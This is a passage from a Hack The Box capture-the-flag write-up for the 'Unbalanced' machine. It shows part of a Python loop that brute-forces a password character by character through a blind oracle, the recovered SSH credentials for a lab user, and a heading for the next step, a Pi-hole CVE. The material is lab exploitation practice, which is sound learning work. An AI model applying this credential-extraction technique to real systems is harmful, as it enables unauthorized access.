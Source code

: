 ```python
    l = log.progress("Brute Forcing %s... " % user)
    log_pass = log.progress("Password: ")
    i = 1
    while True:
        canary = True
        for x in charset:
            l.status(x)
            res = getChar(user,x, i)
            if res:
                canary = False
                pwd += x
                log_pass.status(pwd)
                i += 1
                break
        if canary:
            break

l.success("DONE")
log_pass.success(pwd)
```

Running the script we get the following passwords:

![](/assets/images/htb-writeup-unbalanced/image-20200801212846920.png)

The only credentials that work over SSH are `bryan / ireallyl0vebubblegum!!!`

![](/assets/images/htb-writeup-unbalanced/image-20200801212949995.png)

## Pi-hole CVE-2020-11108
